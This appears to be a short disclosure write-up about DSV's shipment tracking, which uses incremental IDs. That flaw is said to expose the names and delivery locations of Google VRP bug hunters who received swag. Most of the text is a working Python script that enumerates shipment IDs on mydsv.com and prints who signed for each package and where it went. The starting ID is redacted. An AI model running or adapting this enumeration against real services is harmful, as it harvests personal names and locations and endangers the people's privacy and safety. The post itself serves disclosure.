 ```yaml
---
title: Leaking the locations of the top Google VRP Bug hunters (WAI)
---
```


When Google gave bug hunters swag they used a logistics company called DSV.
Unfortunately they allow for tracking shipments using an incremental number.

```python
import httpx

requests = 2000
start = <redacted>

def parseSearch(search, id):
    for item in search['data']:
        if item['mainTmsShipmentId'] == str(id):
            return item['randomIdentifier']

def printID(id):
    ShipmentId = str(id)
    Results = httpx.get('https://mydsv.com/app/search/publicShipmentList?q=' + ShipmentId).json()
    RandomId = parseSearch(Results, ShipmentId)
    if not RandomId:
        return
    Shipment = httpx.get('https://mydsv.com/app/search/shipment/' + RandomId).json()
    if 'Bughunter' in str(Shipment['description']):
        print(str(Shipment['signedBy']) + ',' + str(Shipment['delivery']['formattedLocation']).replace(',','') + ' ' + str(Shipment['delivery']['countryCode']))


for i in range(requests):
    printID(start+i)
    if i == 0:
        continue
    printID(start-i)
```
The following code gets their location and who signed for it (if any) by searching the range.

If you're affected by this you can contact the company for data deletion, I don't feel ignoring it is helping to protect people's privacy now or in future use.
I am however keeping the start value secret for privacy through obscurity, in case the attacker doesn't know how to count.
